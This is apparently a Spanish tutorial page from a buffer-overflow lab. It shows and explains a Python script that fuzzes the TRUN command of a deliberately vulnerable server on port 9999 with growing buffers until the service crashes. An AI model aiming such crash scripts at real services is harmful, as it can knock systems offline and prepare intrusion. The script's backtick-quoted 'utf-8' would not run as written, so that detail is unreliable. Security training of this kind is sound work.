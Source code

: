 El **fuzzing** es muy similar al proceso de **spiking** en el sentido de que se envían muchos caracteres a un comando específico con la intención de hacer que falle. La diferencia es que mientras que en el spiking se prueban múltiples comandos para encontrar cuál es vulnerable, en el fuzzing ya se sabe qué comando es vulnerable, en este caso el comando **TRUN**, y se procede a atacar ese comando de manera específica.

### Preparación

Antes de empezar con el fuzzing, se deben seguir los siguientes pasos de preparación:

1. Ejecutar **Immunity Debugger** con privilegios de administrador.
2. Ejecutar **Voland Server** también como administrador.

Si en algún momento **Voland Server** se bloquea o se cierra debido al fuzzing, es recomendable reiniciar tanto **Immunity Debugger** como **Voland Server**, y volver a adjuntar el proceso en **Immunity Debugger**.

### Desarrollo del Fuzzing

Para realizar el fuzzing, se ha construido un **script en Python**. El objetivo de este script es enviar grandes cantidades de datos al comando **TRUN** para identificar en qué punto se produce un fallo en el servidor.

### Explicación del Script

El script en Python es el siguiente:

```python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100
ip_address = '192.168.0.12'

while True:
    try:
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((ip_address,9999))
        s.send(('TRUN /.:/' + buffer).encode(`utf-8`))
        s.close()
        sleep(1)
        buffer = buffer + "A" * 100
    except:
        print("Fuzzing crash en %s bytes " % str(len(buffer)) )
        sys.exit()
```

Este script sigue el siguiente proceso:

1. Se importan los módulos necesarios: **sys**, **socket** (para la conexión) y **sleep** (para añadir pausas entre envíos).
2. Se declara una variable llamada **buffer**, que inicialmente contiene 100 letras "**A**".
3. El script entra en un bucle **while True**, en el que intenta:
- Conectar al servidor vulnerado en la IP y puerto adecuados (9999 para **Voland Server**).
- Enviar el comando vulnerable **TRUN** seguido de un buffer de caracteres "**A**".
- Cerrar la conexión y dormir por un segundo antes de aumentar el tamaño del buffer en 100 caracteres.
- Continuar este proceso hasta que el servidor falle, lo que indicará que se ha producido un desbordamiento de búfer.
4. Cuando el servidor falla, el script imprime el tamaño del buffer que causó el fallo y se cierra.

